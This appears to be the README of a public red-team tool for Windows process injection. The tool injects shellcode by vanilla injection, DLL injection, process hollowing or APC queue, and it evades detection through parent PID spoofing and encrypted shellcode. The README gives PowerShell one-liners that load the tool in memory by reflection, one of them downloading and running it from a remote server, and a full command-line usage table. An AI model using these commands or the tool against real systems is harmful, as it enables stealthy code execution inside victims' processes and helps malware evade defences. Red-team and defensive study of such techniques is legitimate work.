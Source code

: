 # https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html
# ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 4 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

The tool supports 2 methods to perform process injection.

```
1) P/Invoke
2) D/Invoke
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage           Description
-----           -----------
/t              Specify the process injection technique id.
                1 = Vanilla Process Injection
                2 = DLL Injection
                3 = Process Hollowing
                4 = APC Queue Injection
/m              Specify the method to be used
                p = P/Invoke (Default)
                d = D/Invoke
/f              Specify the format of the shellcode.
                base64
                hex
                c
                raw
/pid            Specify the process id.
/parentproc     Specify the parent process name.
/path           Specify the path of the file that contains the shellcode.
/ppath          Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url            Specify the url where the shellcode is hosted.
/enc            Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key            Specify the key that will be used to decrypt the shellcode.
/sc             Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.  
/help           Show help
```

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html](https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)
